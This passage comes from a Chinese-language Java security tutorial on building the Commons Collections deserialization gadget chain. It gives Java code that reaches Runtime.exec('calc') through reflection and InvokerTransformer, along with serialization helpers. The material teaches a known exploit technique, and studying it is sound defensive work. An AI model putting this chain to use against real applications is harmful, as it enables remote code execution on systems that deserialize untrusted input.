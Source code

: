 ```java
    }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        oos.writeObject(obj);  
    }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
        Object obj = ois.readObject();  
        return obj;  
    }  
}
```

但是没有弹出计数器，是因为这里有三个问题我们还没解决

- Runtime对象不能被序列化，因为它没有继承Serializable接口
- setValue传入的对象应该是Runtime对象的，而在实际情况中确是AnnotationTypeMismatchExceptionProxy
- 通过两个if判断

### 解决Runtime不能序列化的问题
Runtime是不能序列化的，但是`Runtime.class`是可以序列化的。我们先写一遍普通反射。

```java
Class c = Runtime.class;  
Method getRuntimeMethod = c.getMethod("getRuntime");  
Runtime Runtime = (Runtime) getRuntimeMethod.invoke(null, null);  
Method cMethod = c.getMethod("exec", String.class);  
cMethod.invoke(Runtime,"calc");
```

接着将这个反射的Runtime改造为使用InvokerTransformer调用的方式

```java
Method getRuntimeMethod =(Method) new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);  
        Runtime r = (Runtime) new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getRuntimeMethod);  
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
```

由于这里new 了太多次了，且是同样的操作，我们可以用ChainedTransformer类去套，减少工作量

![18](/img/JavaSecurity/a4dd6ca6f2ddef9ab989f08fc3f8fe09_MD5.png)
